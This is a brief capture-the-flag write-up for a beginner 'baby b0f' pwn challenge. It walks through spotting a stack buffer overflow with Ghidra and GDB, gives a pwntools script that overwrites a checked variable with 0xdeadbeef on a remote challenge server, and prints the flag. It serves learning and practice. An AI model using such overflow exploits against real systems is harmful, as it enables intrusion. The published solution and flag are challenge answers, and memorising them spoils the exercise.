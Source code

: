 # baby b0f (pwn)

![Title](images/title.png)

## Walkthrough

Initial testing a simple overflow failed so I dove into the binary using ghidra

![ghidra](images/ghidra.png)

Looks like it does a simple compare from user input to see if a variable is = 0xdeadbeef. Putting this in we are still unsucessful so I used GDB to see what the stack was doing. After some messing around I noticed I could overflow the buffer in order to alter the variable that is being checked.

Code below for flag

```python
#!/usr/bin/env python

from pwn import *

p = remote('68.183.158.95', 8989)
payload = ''
payload+= 'A'*10 # Fill the buffer
payload+= '\xef\xbe\xad\xde' # match the CMP instruction
p.sendline(payload)
p.interactive()
```

<details>
	<summary>Flag</summary>

d4rk{W3lc0me_t0_th3_w0rld_0f_pwn}c0de
</details>